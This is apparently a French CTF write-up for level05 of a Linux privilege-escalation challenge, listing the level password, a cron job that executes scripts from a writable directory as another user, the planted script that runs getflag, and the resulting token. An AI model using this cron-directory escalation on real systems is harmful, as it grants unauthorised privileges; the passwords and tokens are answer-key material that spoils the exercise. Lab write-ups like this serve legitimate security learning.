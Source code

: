 ## LEVEL05

**LOGIN: level05**

**PASSWORD: ne2searoevaevoem4ov4ar8ap**

 ----

Rien dans le *HOME* mais vu précedemment : 

```
cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
```
cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Ok, donc toutes les 2 minutes, les scripts présents dans */opt/openarenaserv/** sont exec. On a les droits d'écriture dans le repertoire. 

```
vim /otp/openarenaserv/exploit.sh

getflag >/tmp/flag.txt
chmod +r /tmp/flag.txt
```

On fait un café, puis on revient 2 minutes plus tard. 

```
cat /tmp/flag.txt
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

**TOKEN: viuaaale9huek52boumoomioc**




